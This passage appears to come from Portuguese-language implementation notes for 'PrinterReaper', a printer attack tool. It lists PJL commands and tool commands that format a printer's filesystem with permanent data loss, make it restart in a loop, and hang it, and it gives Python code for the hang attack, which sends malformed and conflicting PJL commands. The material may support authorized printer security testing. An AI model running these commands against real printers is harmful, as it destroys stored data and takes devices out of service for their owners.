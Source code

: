 ### ✅ 2.5 Filesystem Format
**PJL**: `@PJL FSINIT VOLUME="0:"`  
**PrinterReaper**: `format`  
**Efeito**: Formata sistema de arquivos  
**Recuperação**: Perda permanente de dados

**Teste**:
```
format
# Requer confirmação
```

### ✅ 2.6 Printer Restart Loop
**PJL**: `@PJL RESET` (repetido)  
**PrinterReaper**: `restart` + loop  
**Efeito**: Reiniciar continuamente  
**Recuperação**: Desconectar rede

**Teste**:
```
loop restart restart restart
```

### ❌ 2.7 Hang Attack (FALTANDO)
**PJL**: Comandos malformados  
**PrinterReaper**: NÃO IMPLEMENTADO  
**Efeito**: Travar impressora completamente  
**Recuperação**: Power cycle

**Implementação Necessária**:
```python
def do_hang(self, arg):
    """Hang printer with malformed PJL commands"""
    output().warning("DANGER: This will hang the printer!")
    output().warning("Power cycle will be required!")
    
    try:
        confirm = input("Continue? (yes/no): ")
        if confirm.lower() != 'yes':
            return
    except (EOFError, KeyboardInterrupt):
        return
    
    # Multiple hang vectors
    self.cmd("@PJL ENTER LANGUAGE=INVALID", False)
    self.cmd("@PJL SET LANGUAGE=UNKNOWN", False)
    self.cmd("@PJL INITIALIZE", False)
    # Conflicting commands
    for i in range(100):
        self.cmd("@PJL DEFAULT", False)
        self.cmd("@PJL RESET", False)
```
